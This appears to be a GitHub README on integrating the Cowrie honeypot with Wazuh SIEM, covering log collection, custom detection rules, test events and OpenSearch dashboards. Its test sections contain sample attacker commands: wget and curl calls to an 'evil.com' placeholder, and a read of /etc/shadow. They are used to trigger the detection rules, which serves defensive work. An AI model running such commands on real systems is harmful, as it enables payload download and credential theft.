








# Cowrie Honeypot - Wazuh SIEM Integration

| Field | Value |
| --- | --- |
| **OS** | Ubuntu 24.04 LTS (bare metal) |
| **Wazuh** | v4.14.3 - all-in-one (manager + indexer + dashboard) |
| **Cowrie** | Docker image `cowrie/cowrie:latest` |
| **Validated** | 2026-03-14 |
| **Log Format** | JSON (`cowrie.json`) |
| **Documentation Version** | 1.0 |

---

## Table of Contents

1. [Overview](#1-overview)
2. [Environment](#2-environment)
3. [Log Pipeline Architecture](#3-log-pipeline-architecture)
4. [Wazuh Configuration](#4-wazuh-configuration)
5. [Cowrie Rules - `cowrie_rules.xml`](#5-cowrie-rules---cowrie_rulesxml)
6. [Validation](#6-validation)
7. [OpenSearch Verification](#7-opensearch-verification)
8. [Dashboard Visualizations](#8-dashboard-visualizations)
9. [Technical Challenges and Fixes](#9-technical-challenges-and-fixes)
10. [Reproduction Workflow](#10-reproduction-workflow)
11. [Operational Notes](#11-operational-notes)

---

## 1. Overview

This document covers the complete integration of the Cowrie SSH/Telnet honeypot with Wazuh SIEM. Cowrie runs in Docker, produces one JSON event per line, and is monitored by Wazuh through a stable symlink path. The integration is designed for SOC visibility, MITRE ATT&CK mapping, OpenSearch indexing, and dashboard-based monitoring.

The workflow follows this model:

```text
Cowrie JSON log -> Wazuh logcollector -> built-in JSON decoder -> custom Cowrie rules -> OpenSearch -> Wazuh Dashboard
```

The ruleset covers eight operational event categories plus one base rule, with emphasis on brute-force attempts, successful compromise of the honeypot, command execution, malware download attempts, and reconnaissance.

---

## 2. Environment

### 2.1 Infrastructure

| Component | Details |
| --- | --- |
| Host OS | Ubuntu 24.04 LTS |
| Wazuh Version | 4.14.3 |
| OpenSearch | `https://127.0.0.1:9200` |
| Wazuh Dashboard | HTTPS on the lab dashboard endpoint |
| Cowrie Runtime | Docker |
| Container Image | `cowrie/cowrie:latest` |
| Cowrie SSH Port | Host `2224` -> container `2222` |
| Cowrie Telnet Port | Host `2225` -> container `2223` |
| Container Hostname | `svr04` |

### 2.2 Network Note

In the captured lab sessions, the observed source IP is the Docker bridge address. That is expected when the honeypot is accessed locally through Docker bridge networking. In an Internet-exposed deployment, source IP diversity would be higher.

---

## 3. Log Pipeline Architecture

### 3.1 Real Cowrie Log Path Discovery

Cowrie writes the active JSON log to a Docker volume rather than the empty bind-mounted path that may exist on the host. Always identify the real file before configuring Wazuh.

Typical discovery workflow:

```bash
sudo docker ps | grep cowrie
sudo docker inspect <container_id> | grep -A10 Mounts
sudo find /var/lib/docker/volumes/ -name 'cowrie.json' 2>/dev/null
```

### 3.2 Stable Symlink for Wazuh

Create a human-readable symlink so the Wazuh configuration does not depend on a long Docker volume path:

```bash
sudo ln -s /var/lib/docker/volumes/<volume_id>/_data/log/cowrie/cowrie.json /var/log/cowrie.json
ls -la /var/log/cowrie.json
```

### 3.3 `ossec.conf` Localfile Block

Add this block to `/var/ossec/etc/ossec.conf`:

```xml
<!-- ======================== COWRIE HONEYPOT LOGS ======================== -->
<localfile>
  <log_format>json</log_format>
  <location>/var/log/cowrie.json</location>
  <label key="@source">cowrie</label>
  <only-future-events>no</only-future-events>
</localfile>
```

Why this matters:

- `log_format=json` ensures each line is parsed as a JSON object.
- `@source=cowrie` provides a reliable filter for rules and dashboards.
- `only-future-events=no` processes historical content on first load.

---

## 4. Wazuh Configuration

### 4.1 Decoder Strategy

The integration should **not** fight the built-in JSON decoder. Cowrie events are already JSON, and the most reliable design is:

- use the built-in `json` decoder,
- avoid a custom child decoder inheriting from `json`,
- write rules with `<decoded_as>json</decoded_as>`,
- use `<match>` on the raw JSON string for event classification.

### 4.2 Critical JSON Decoder Caution

Before deploying Cowrie, review `/var/ossec/etc/decoders/local_decoder.xml` and remove any decoders that use:

```xml
<parent>json</parent>
```

These decoder patterns can destroy previously extracted JSON dynamic fields and break dashboard aggregations for `data.*` fields.

### 4.3 File Ownership and Validation

```bash
sudo chown root:wazuh /var/ossec/etc/rules/cowrie_rules.xml
sudo chmod 660 /var/ossec/etc/rules/cowrie_rules.xml
sudo /var/ossec/bin/wazuh-analysisd -t
sudo systemctl restart wazuh-manager
```

---

## 5. Cowrie Rules - `cowrie_rules.xml`

Save the following rules in `/var/ossec/etc/rules/cowrie_rules.xml`.

```xml
<!-- ============================================================ -->
<!-- Cowrie Honeypot Rules -->
<!-- Range: 100500-100508 -->
<!-- ============================================================ -->
<group name="cowrie,honeypot,">

  <rule id="100500" level="3">
    <decoded_as>json</decoded_as>
    <match>"eventid":"cowrie.</match>
    <description>Cowrie Honeypot: event detected</description>
    <group>cowrie,</group>
  </rule>

  <rule id="100501" level="6">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.session.connect</match>
    <description>Cowrie: New connection to honeypot</description>
    <mitre>
      <id>T1110</id>
    </mitre>
    <group>cowrie,connection,</group>
  </rule>

  <rule id="100502" level="8">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.login.failed</match>
    <description>Cowrie: Login failed on honeypot</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,authentication_failed,</group>
  </rule>

  <rule id="100503" level="12">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.login.success</match>
    <description>Cowrie: Login success on honeypot</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,authentication_success,</group>
  </rule>

  <rule id="100504" level="10">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.command.input</match>
    <description>Cowrie: Command executed in honeypot shell</description>
    <mitre>
      <id>T1059</id>
    </mitre>
    <group>cowrie,command,</group>
  </rule>

  <rule id="100505" level="14">
    <if_sid>100504</if_sid>
    <match>"input":"wget|"input":"curl|"input":"tftp|"input":"ftpget</match>
    <description>Cowrie: Malware download attempt on honeypot</description>
    <mitre>
      <id>T1105</id>
    </mitre>
    <group>cowrie,malware_download,</group>
  </rule>

  <rule id="100506" level="5">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.command.failed</match>
    <description>Cowrie: Command not recognized in honeypot</description>
    <group>cowrie,command_failed,</group>
  </rule>

  <rule id="100507" level="3">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.session.closed</match>
    <description>Cowrie: Session closed</description>
    <group>cowrie,session_closed,</group>
  </rule>

  <rule id="100508" level="6">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.client.version</match>
    <description>Cowrie: SSH client version identified</description>
    <mitre>
      <id>T1046</id>
    </mitre>
    <group>cowrie,recon,</group>
  </rule>

</group>
```

### 5.1 Rule Summary

| Rule ID | Level | Purpose | MITRE |
| --- | ---: | --- | --- |
| 100500 | 3 | Base rule - any Cowrie JSON event | - |
| 100501 | 6 | New connection | T1110 |
| 100502 | 8 | Login failed | T1110.001 |
| 100503 | 12 | Login success | T1110.001 |
| 100504 | 10 | Command input | T1059 |
| 100505 | 14 | Malware download attempt | T1105 |
| 100506 | 5 | Command failed | - |
| 100507 | 3 | Session closed | - |
| 100508 | 6 | SSH client version | T1046 |

---

## 6. Validation

### 6.1 Representative Cowrie Event Types

The integration documentation validated these event families:

- `cowrie.session.connect`
- `cowrie.client.version`
- `cowrie.client.kex`
- `cowrie.client.fingerprint`
- `cowrie.login.failed`
- `cowrie.login.success`
- `cowrie.command.input`
- `cowrie.command.failed`
- `cowrie.session.file_download`
- `cowrie.session.closed`

### 6.2 `wazuh-logtest` Strategy

Use `wazuh-logtest` with raw JSON piped directly into the tool. The goal is to confirm Phase 3 rule hits, not to rely on field extraction display.

Examples:

```bash
echo '{"eventid":"cowrie.login.success","username":"root","src_ip":"172.17.0.1","session":"test01","protocol":"ssh","timestamp":"2026-03-14T07:00:00Z"}' \
| sudo /var/ossec/bin/wazuh-logtest 2>&1 | grep -v WARNING


echo '{"eventid":"cowrie.login.failed","username":"admin","src_ip":"172.17.0.1","session":"test02","protocol":"ssh","timestamp":"2026-03-14T07:05:00Z"}' \
| sudo /var/ossec/bin/wazuh-logtest 2>&1 | grep -v WARNING


echo '{"eventid":"cowrie.command.input","input":"wget http://evil.com/payload.sh","src_ip":"172.17.0.1","session":"test03","protocol":"ssh","timestamp":"2026-03-14T07:10:00Z"}' \
| sudo /var/ossec/bin/wazuh-logtest 2>&1 | grep -v WARNING
```

Expected results:

| Event | Expected Rule | Expected Outcome |
| --- | --- | --- |
| `login.success` | 100503 | Phase 3 hit |
| `session.connect` | 100501 | Phase 3 hit |
| `command.input` with `wget` | 100505 | Phase 3 hit |
| `login.failed` | 100502 | Phase 3 hit |
| `command.failed` | 100506 | Phase 3 hit |
| `session.closed` | 100507 | Phase 3 hit |
| `client.version` | 100508 | Phase 3 hit |

### 6.3 Real Traffic Generation

Generate realistic honeypot traffic directly against Cowrie:

```bash
ssh -p 2224 -o StrictHostKeyChecking=no root@localhost
# Example commands once inside Cowrie shell:
# whoami
# id
# uname -a
# cat /etc/shadow
# wget http://evil.com/malware.sh
# curl http://evil.com/dropper
# exit
```

### 6.4 Optional Username Expansion for Testing

If you want broader username coverage, activate Cowrie's example `userdb.txt` inside the container:

```bash
sudo docker exec <container_id> python3 -c "
import shutil
shutil.copy('/cowrie/cowrie-git/etc/userdb.example', '/cowrie/cowrie-git/etc/userdb.txt')"
```

---

## 7. OpenSearch Verification

Use Dev Tools to confirm that Cowrie alerts are indexed with extracted JSON fields.

### 7.1 Count alerts with structured fields

```json
GET wazuh-alerts-*/_search
{
  "size": 0,
  "query": {
    "bool": {
      "must": [
        {"match": {"rule.groups": "cowrie"}},
        {"exists": {"field": "data.eventid"}}
      ]
    }
  },
  "aggs": {
    "total": {
      "value_count": {
        "field": "data.eventid"
      }
    }
  }
}
```

### 7.2 Distribution by rule, username, eventid, and source IP

```json
GET wazuh-alerts-*/_search
{
  "size": 0,
  "query": {
    "bool": {
      "must": [
        {"match": {"rule.groups": "cowrie"}},
        {"exists": {"field": "data.eventid"}}
      ]
    }
  },
  "aggs": {
    "by_rule": {"terms": {"field": "rule.id", "size": 20}},
    "by_username": {"terms": {"field": "data.username", "size": 20}},
    "by_eventid": {"terms": {"field": "data.eventid", "size": 20}},
    "by_srcip": {"terms": {"field": "data.src_ip", "size": 20}}
  }
}
```

### 7.3 MITRE ATT&CK breakdown

```json
GET wazuh-alerts-*/_search
{
  "size": 0,
  "query": {
    "match": {
      "rule.groups": "cowrie"
    }
  },
  "aggs": {
    "by_mitre_id": {"terms": {"field": "rule.mitre.id", "size": 10}},
    "by_mitre_tactic": {"terms": {"field": "rule.mitre.tactic", "size": 10}}
  }
}
```

### 7.4 Critical alerts

```json
GET wazuh-alerts-*/_search
{
  "query": {
    "bool": {
      "must": [
        {"match": {"rule.groups": "cowrie"}},
        {"range": {"rule.level": {"gte": 10}}}
      ]
    }
  },
  "size": 5,
  "sort": [
    {"timestamp": {"order": "desc"}}
  ]
}
```

---

## 8. Dashboard Visualizations

Use the Wazuh Dashboard / OpenSearch Dashboards interface with the `wazuh-alerts-*` index pattern.

### Visualization 1 - Honeypot Event Distribution

**Type:** Pie / Donut  
**Title:** `Cowrie: Honeypot Event Distribution`

- Filter: `rule.groups is cowrie`
- Filter: `data.eventid exists`
- Metric: `Count`
- Split slices: `Terms` on `data.eventid`
- Order: `Count desc`
- Size: `15`



---

### Visualization 2 - Alerts by Rule

**Type:** Horizontal Bar  
**Title:** `Cowrie: Alerts by Rule`

- Filter: `rule.groups is cowrie`
- Filter: `data.eventid exists`
- Metric: `Count`
- X-axis: `Terms` on `rule.description`
- Order: `Count desc`
- Size: `10`



---

### Visualization 3 - Attacked Usernames

**Type:** Pie  
**Title:** `Cowrie: Attacked Usernames`

- Filter: `rule.groups is cowrie`
- Filter: `data.username exists`
- Metric: `Count`
- Split slices: `Terms` on `data.username`
- Order: `Count desc`
- Size: `10`



---

### Visualization 4 - MITRE ATT&CK Techniques

**Type:** Pie  
**Title:** `Cowrie: MITRE ATT&CK Techniques`

- Filter: `rule.groups is cowrie`
- Filter: `rule.mitre.id exists`
- Metric: `Count`
- Split slices: `Terms` on `rule.mitre.id`
- Order: `Count desc`
- Size: `10`



---

### Visualization 5 - Alert Severity Distribution

**Type:** Vertical Bar  
**Title:** `Cowrie: Alert Severity Distribution`

- Filter: `rule.groups is cowrie`
- Filter: `data.eventid exists`
- Y-axis: `Count`
- X-axis: `Histogram` on `rule.level`
- Minimum interval: `1`



---

### Visualization 6 - Honeypot Activity Timeline

**Type:** Line  
**Title:** `Cowrie: Honeypot Activity Timeline`

- Filter: `rule.groups is cowrie`
- Y-axis: `Count`
- X-axis: `Date Histogram` on `timestamp`
- Minimum interval: `Minute` or `Auto`

Use the dashboard time picker to match the real test window.



---

### Visualization 7 - Recent Alert Details

**Type:** Data Table  
**Title:** `Cowrie: Recent Alert Details`

Filters:

- `rule.groups is cowrie`
- `data.eventid exists`

Split rows:

1. `timestamp`
2. `rule.description`
3. `rule.level`
4. `data.eventid`
5. `data.username`
6. `data.src_ip`



---

### Visualization 8 - MITRE ATT&CK Tactics

**Type:** Horizontal Bar  
**Title:** `Cowrie: MITRE ATT&CK Tactics`

- Filter: `rule.groups is cowrie`
- Filter: `rule.mitre.tactic exists`
- Metric: `Count`
- X-axis: `Terms` on `rule.mitre.tactic`
- Order: `Count desc`
- Size: `10`



---

### Full Dashboard Screenshot

Title suggestion:

`Cowrie Honeypot - SOC Monitoring`

Recommended layout:

- Row 1: timeline full width
- Row 2: event distribution + severity distribution
- Row 3: attacked usernames + MITRE techniques
- Row 4: alerts by rule + MITRE tactics
- Row 5: recent alert details full width


---

### Dev Tools Verification Screenshot

Include at least one screenshot showing successful OpenSearch aggregation on Cowrie fields.


---

## 9. Technical Challenges and Fixes

### 9.1 `wazuh-logtest` JSON Limitation

Problem:

`wazuh-logtest` is unreliable for this workflow when JSON field extraction is expected. Phase 2 may show decoder `json` without listing extracted fields.

Fix:

Use `<match>` on the raw JSON string instead of `<field>` conditions for Cowrie rules.

### 9.2 OS_Match Backslash Pitfall

Problem:

The `<match>` engine is pattern matching, not full regex. Writing `cowrie\.` searches for a literal backslash.

Fix:

Use:

```xml
<match>"eventid":"cowrie.</match>
```

not:

```xml
<match>"eventid":"cowrie\.</match>
```

### 9.3 JSON Field Destruction with `<parent>json</parent>`

Problem:

Child decoders inheriting from `json` can wipe out JSON dynamic fields for the event, preventing `data.*` aggregations in OpenSearch.

Fix:

Remove those child decoders and rely on the built-in JSON decoder plus `<decoded_as>json</decoded_as>` in rules.

---

## 10. Reproduction Workflow

1. Locate the real `cowrie.json` file inside Docker storage.
2. Create `/var/log/cowrie.json` as a symlink.
3. Add the Cowrie `<localfile>` block to `ossec.conf`.
4. Remove any problematic `<parent>json</parent>` child decoders.
5. Create `/var/ossec/etc/rules/cowrie_rules.xml`.
6. Validate with `wazuh-analysisd -t` and restart the manager.
7. Run `wazuh-logtest` with representative JSON events.
8. Generate real SSH/Telnet activity against Cowrie.
9. Verify structured `data.*` fields in `alerts.json` and OpenSearch.
10. Build the dashboard and capture screenshots.

---

## 11. Operational Notes

- The Docker bridge IP appearing in Cowrie alerts is normal in a local lab.
- Alerts generated before the JSON field fix may not contain structured `data.*` fields.
- For GitHub publication, replace the placeholder screenshots in `assets/` with clean, high-resolution captures from the Wazuh Dashboard.
- Keep all publication text in English for consistency with the rest of the repository.

---

*Prepared for publication in the Wazuh SOC Enterprise repository. Replace the placeholder screenshots in `assets/` with final high-resolution images before committing to Git.*
